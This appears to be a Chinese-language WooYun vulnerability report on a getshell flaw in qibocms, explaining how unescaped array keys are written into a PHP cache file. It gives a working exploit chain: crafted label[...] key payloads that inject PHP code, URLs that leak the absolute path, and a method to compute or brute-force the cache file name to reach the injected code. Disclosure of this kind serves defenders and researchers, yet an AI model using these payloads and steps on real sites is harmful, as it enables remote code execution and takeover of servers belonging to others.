## WooYun-2014-70366：qibocms全部開源系統 Getshell

## **詳細說明**
全局過濾函數

```php
function Add_S($array){

    foreach($array as $key=>$value){

        if(!is_array($value)){

            @eregi("['\\\"&]+",$key) && die('ERROR KEY!');

            $value=str_replace("&#x","& # x",$value);    //過濾不安全符號

            $value=preg_replace("/eval/i","eva l",$value);    //過濾不安全符號

            !get_magic_quotes_gpc() && $value=addslashes($value);

            $array[$key]=$value;

        }else{

            $array[$key]=Add_S($array[$key]); 

        }

    }

    return $array;

}
```

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-1.jpg)
被匹配出

當像下圖這樣提交的時候 匹配的key是asd 那麼就不會被匹配出 就不會被過濾。

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-2.jpg)

在label_module.php中 這裡無需登錄任何

```php
else

{

    foreach($label AS $key=>$value)

    {

        var_dump ($value);exit;

        //如果是新標籤時,即為陣列array(),要清空

        if(is_array($value))

        {

            $label[$key]='';

        }

    }

    //寫緩存

    if( (time()-filemtime($FileName))>($webdb[label_cache_time]*60) ){

        $_shows="<?php\r\n\$haveCache=1;\r\n";

        foreach($label AS $key=>$value){

            $value=addslashes($value);

            $_shows.="\$label['$key']=stripslashes('$value');\r\n";

        }

        write_file($FileName,$_shows.'?>');

    }    

}
```

由於qibo是

```php
foreach($_POST AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_POST[$_key];

}

foreach($_GET AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_GET[$_key];

}
```

所以這變量`$label` 可以直接控制。
然後循環出來 陣列中的key 和 value 都直接寫入到了緩存文件中。
這裡由於value 全局的函數 會受到第一次轉義 `$value=addslashes($value);`
這裡又經過了第二次轉義 那麼就是a\\'
`"$label['$key']=stripslashes('$value');\r\n"`
寫入時候的代碼 就看有個stripslashes 其實是不會被執行的 而就是把stripslashes寫入到文件當中。
這時候只有來利用key 由於在全局的過濾函數中沒對key做addslashes(也不能做addslashes) 所以不會被轉義 而且結合上面的 就直接繞過了。
當寫入到文件中的時候是這樣的。

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-3.jpg)
![4](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-4.jpg)

key中直接含單引號 被匹配到然後退出了。
結合上面的方式繞過。

![5](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-5.jpg)


這時候寫入的代碼為 $label['asd'']=stripslashes('');
後面的stripslashes('') 為啥是空的了呢
如果不是空的還能利用轉義符來搞。
因為我們這樣提交index.php?label[asd'][asd]=asda' 這樣的那麼他的value是陣列


```php
if(is_array($value))

        {

            $label[$key]='';

        }
```


就清空了。
一開始我一直在糾結如果閉合之前的這個[ 我就需要提交一個yu']# 類似這樣的
可是寫入的是陣列中的key 如果要在key中寫入]的話 那麼就成了
`http://**.**.**.**/qibov7/index.php?label[asd']][asd]=asda'`
就成了[asd']] 這樣 那麼提交的] 和之前[ 閉合 然後key就還是asd'
然後就一直在這糾結這個問題。 。
後面問了問P神 尼瑪 瞬間給我解決。
P神給的`['a'."${phpinfo()}".'']` 利用雙引號的二次解析來Getshell
那麼就讓我們的key為a'."${phpinfo()}".' 這個就行了 不含]


![6](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-6.jpg)

測試一下能不能執行

![7](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-7.jpg)

報錯了 這裡我們用一下錯誤抑制符
那麼也就是`'a'."[[email protected]()}".'']` 提交的key為`a'."[email protected]()}".'`

![8](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-8.jpg)
![9](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-9.jpg)

成功執行。
後面我再簡化了一下其實是不需要用到雙引號的二次解析的
`[''.phpinfo().'']` 提交的key為`'.phpinfo().'` 依舊可以直接執行

---


內容可以搞定了 這裡我們再來看一下文件名是怎麼來的

```php
$FileName=ROOT_PATH."cache/label_cache/";

    if(!is_dir($FileName)){

        makepath($FileName);

    }

    $FileName.=(ereg("\.php",basename($WEBURL))?preg_replace("/\.php(.*)/","",basename($WEBURL)):'index')."_".intval($ch)."_".intval($ch_pagetype)."_".intval($ch_module)."_".intval($ch_fid)."_".intval($city_id).'_'.substr(md5(getTpl("index",$chdb[main_tpl])),0,5).".php";
```

首先目錄cache/label_cache/
再來看文件名
```php
".intval($ch)."".intval($chpagetype)."".intval($chmodule)."".intval($chfid)."".intval($cityid).''.substr(md5 (getTpl("index",$chdb[main_tpl])),0,5).".php"
```
就是經過一系列的轉整 除開$ch 為1 其他的那些變量 我們都沒去定義 那麼intval 後為0
那麼就是
```php 
index_1_0_0_0_0_substr(md5(getTpl("index",$chdb[main_tpl])),0,5).php
```
來看一下這個 `getTpl("index",$chdb[main_tpl])`
這個其實就是模版地址 網站的絕對路徑+默認模版地址
這裡用到了網站的絕對路徑 所以我們要找一個可以洩漏絕對路徑的。
會洩漏絕對路徑的地方很多 貼兩處
```
http://**.**.**.**/data/label_hf.php

http://**.**.**.**//do/fontimg.php
http://**.**.**.**//hack/gather/inc/show_system_fid.php
```
以為本地測試為例

![10](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-10.jpg)

`D:\ApmServ\www\htdocs\qibov7\data\label_hf.php`
那麼網站的絕對路徑就為 `D:\ApmServ\www\htdocs\qibov7`
再加上默認模版路徑`/template/default/index.htm`
那就是 `D:\ApmServ\www\htdocs\qibov7/template/default/index.htm`
對這個進行md5一次 得到`82e4a1041f04d2edb779e87b37623786`
然後他這裡是`substr(md5(getTpl("index",$chdb[main_tpl])),0,5)`取前5位
那麼就是82e4a 再拼湊起來
那麼就得到 `cache/label_cache/index_1_0_0_0_0_82e4a.php`

![11](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-11.jpg)

找文件的第二種方法
在`windows iis`下可以利用短文件名來猜解
如果`windows apache`的話 那就更簡單了
直接`cache/labelcache/index~1.php`


![12](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-12.jpg)

直接就可以了。
當然 5位 也可以嘗試爆破一下。
